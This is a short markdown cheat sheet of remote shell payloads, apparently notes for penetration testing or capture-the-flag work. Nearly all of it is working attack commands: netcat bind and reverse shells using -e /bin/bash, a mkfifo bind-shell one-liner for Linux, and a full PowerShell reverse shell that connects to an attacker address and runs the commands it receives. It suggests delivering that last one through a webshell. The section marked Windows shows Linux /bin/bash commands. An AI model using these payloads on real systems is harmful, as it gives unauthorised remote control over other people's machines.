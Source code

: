 # Common shell payloads

## Examples

### Windows

In some versions of netcat (including the `nc.exe` Windows version included with Kali at 
`/usr/share/windows-resources/binaries`, and the version used in Kali itself) there is a `-e` option which allows 
for executing a process on connection:

    nc -lvnp <port-number> -e /bin/bash

Connecting to the above listener with netcat would result in a bind shell on the target.

For a reverse shell, connect back with:

    nc <IP address attack machine> <port-number> -e /bin/bash

### Linux

On Linux, use this code to create a listener for a bind shell:

    mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f

### Windows server

The standard one-liner PSH reverse shell:

```text
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

Copy into a `cmd.exe` shell or another method of executing commands on a Windows server, such as a webshell. 

## Resources

* [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
